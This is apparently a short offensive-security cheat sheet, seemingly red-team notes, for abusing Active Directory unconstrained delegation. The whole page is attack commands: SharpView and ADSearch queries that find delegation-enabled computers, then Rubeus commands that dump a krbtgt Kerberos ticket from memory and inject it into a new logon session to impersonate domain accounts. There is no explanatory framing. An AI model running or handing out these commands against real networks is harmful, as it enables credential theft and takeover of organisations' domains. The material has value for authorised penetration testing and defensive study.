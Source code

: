 # Binaries

## 01 - Enumerate

### 1.1 - SharpView

```
C:\> .\SharpView.exe Get-NetComputer -Unconstrained
```

### 1.2 - [[ADSearch]]

```
C:\> .\ADSearch.exe -s "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

## 02 - Exploit

### 2.1 - Rubeus

```
C:\> .\Rubeus triage

C:\> .\Rubeus dump /luid:<krbtgt_LUID> /nowrap

C:\> .\Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /domain:<DOMAIN> /username:<username> /password:<fake_password> /ticket:<krbtgt_base64_encoded_ticket>
```